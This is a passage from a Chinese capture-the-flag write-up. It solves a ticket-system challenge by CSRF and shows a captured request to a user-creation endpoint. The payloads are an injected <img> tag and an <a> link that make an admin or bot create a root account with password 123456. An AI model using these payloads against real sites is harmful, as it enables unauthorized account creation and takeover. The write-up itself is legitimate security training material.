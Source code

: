 ```
GET /xxx/newUser?username=test&amp;password=test&amp;password2=test HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://xx.xx.xx.xx/xxx/newUser
Connection: close
Cookie: session_level7a=eyJ1c2VyIjoiYWRtaW4ifQ.D-pwWw.xIfxmh00wlGwcQUBFWC92kk6gTM
Upgrade-Insecure-Requests: 1
```

记下url请求：`http://xxxx/xxx/newUser?username=root&amp;password=123456&amp;password2=123456`,回到主页再次提交一个ticket，这次title和body都填:<br>`&lt;img src=newUser?username=root&amp;password=123456&amp;password2=123456&gt;`

[![](https://p5.ssl.qhimg.com/t0183ce96989a051c01.gif)](https://p5.ssl.qhimg.com/t0183ce96989a051c01.gif)

然后再次登入admin用户：

[![](https://p5.ssl.qhimg.com/t01fe65536266022801.gif)](https://p5.ssl.qhimg.com/t01fe65536266022801.gif)

查看最下方那张无法正常显示的图片：

[![](https://p0.ssl.qhimg.com/t010c1332973e7fff04.gif)](https://p0.ssl.qhimg.com/t010c1332973e7fff04.gif)

payload正常，应该奏效了，回到登入页面，用root:123456成功登入！

好吧，测试版本系统的漏洞分析的差不多了，来研究一下上线版本吧！打开第九题：

[![](https://p4.ssl.qhimg.com/t01cd8b66dc4e536715.gif)](https://p4.ssl.qhimg.com/t01cd8b66dc4e536715.gif)

界面和功能几乎是一样的，依然可以提交ticket和登入查看ticket，不过这次admin的密码改了，我们无法登入触发CSRF了，考虑了一下这边可能有机器人访问ticket页面，所以依旧采用刚刚的payload，提交一个ticket，title和body依然填<br>`&lt;img src='newUser?username=root&amp;password=123456&amp;password2=123456'&gt;`,提交，然后回到登入页面，用root:123456登入，满怀希望看见Flag，然而：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0142e1c6a62b20e58d.gif)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01dc0caf45a0ef1e6e.jpg)

没关系，换个要点击的payload，也许这个机器人会主动点击呢？

`&lt;a href="http://localhost/newUser?username=root&amp;password=123456&amp;password2=123456"&gt;haha&lt;/a&gt;`<br>
尝试登陆:

[![](https://p5.ssl.qhimg.com/t01c551e5d97467bc2b.gif)](https://p5.ssl.qhimg.com/t01c551e5d97467bc2b.gif)

成功！真是个奇怪的机器人！点击`Flag Won't Work`，拿到第一个Flag，注意下面的才是真Flag！
